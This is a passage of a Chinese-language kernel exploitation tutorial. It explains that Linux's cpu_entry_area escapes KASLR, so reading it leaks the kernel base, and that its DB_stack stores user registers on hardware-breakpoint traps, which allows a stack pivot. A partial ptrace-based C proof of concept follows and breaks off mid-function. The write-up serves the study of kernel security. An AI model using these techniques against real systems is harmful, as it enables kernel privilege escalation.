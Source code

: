 这段区域用于描述`CPU`的各种状态和布局，尤其是`estacks`中的`DB_stack`是我们尤其需要关注的部分。

## 0x02. 地址泄露

很简单，如下图为我开启`kaslr`时的`cpu_entry_area mapping`段泄露的内核地址：

![image-20250227200407010](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imagesimage-20250227200407010.png)

说明该段并未参与随机化，若我们含有一个任意地址读即可在未知其他地址的情况下获得内核基地址。

## 0x03. 用于栈迁移

在`cpu_entry_area`的`DB_stack`，更具体一点来说，在`0xfffffe0000010f58`这个地址上，存放着内核陷入硬件断点时，用户态的寄存器的值。

我们使用一个`poc`如下：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/user.h>
#include <stddef.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <sched.h>

pid_t hbp_pid;
int status;
char buf[0x10];

// 创建hardware breakpoint
void create_hbp(void* addr)     
{
    //Set DR0: HBP address
    if(ptrace(PTRACE_POKEUSER,hbp_pid, offsetof(struct user, u_debugreg), addr) == -1) {
        printf("Could not create hbp! ptrace dr0: %m\n");
        kill(hbp_pid,9);
        exit(1);
    }
    /* Set DR7: bit 0 enables DR0 breakpoint. Bit 8 ensures the processor stops on the instruction which causes the exception.
     * bits 16,17 means we stop on data read or write. Bits 18,19 say we watch 4 bytes. Why 4 bytes? Well, it's convenient to
     * hit 4 DB exceptions per syscall. Why not 8 bytes? Because 4 bytes works fine. */
    if(ptrace(PTRACE_POKEUSER,hbp_pid, offsetof(struct user, u_debugreg) + 56, 0xf0101) == -1) {
        printf("Could not create hbp! ptrace dr7: %m\n");
        kill(hbp_pid,9);
        exit(1);
    }
}

int main(){

    // 1. fork a child process
    hbp_pid = fork();

    // 2. child process
    if(hbp_pid == 0){
        /* bind cpu */
        cpu_set_t mask;
        CPU_ZERO(&mask);
        CPU_SET(1,&mask);
        sched_setaffinity(0,sizeof(mask),&mask);

```